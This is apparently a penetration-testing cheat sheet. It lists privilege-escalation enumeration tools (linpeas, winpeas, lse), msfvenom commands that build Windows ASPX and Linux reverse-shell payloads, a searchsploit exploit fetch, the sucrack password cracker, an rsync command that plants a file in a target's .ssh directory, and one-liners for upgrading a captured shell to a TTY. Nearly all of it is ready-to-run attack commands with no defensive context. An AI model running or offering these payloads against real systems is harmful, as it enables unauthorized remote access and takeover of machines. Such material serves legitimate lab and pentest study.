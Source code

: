 ```bash
rsync <filename> rsync://sys-internal@<IP>/files/sys-internal/.ssh
```

---

# Tools

#### Enumeration tools
- lse.sh : https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- linpeas.sh : https://github.com/carlospolop/PEASS-ng/releases/tag/20230808-5e84dec0
- winpeas.exe : https://github.com/carlospolop/PEASS-ng/releases/tag/20230808-5e84dec0

#### exploitation tools
- msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx -o exploit.aspx
```

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "\x00\x25\x26" -f python -v shellcode
```

- searchsploit
```bash
searchsploit -m php/webapps/49876.py [module name]
```

#### random tools
- sucrack : https://github.com/hemp3l/sucrack

---

# TTY Shell Upgrade
#### Spawn a tty shell

```bash
python2 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
script /dev/null -c bash
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

```bash
Ctrl + Z
```
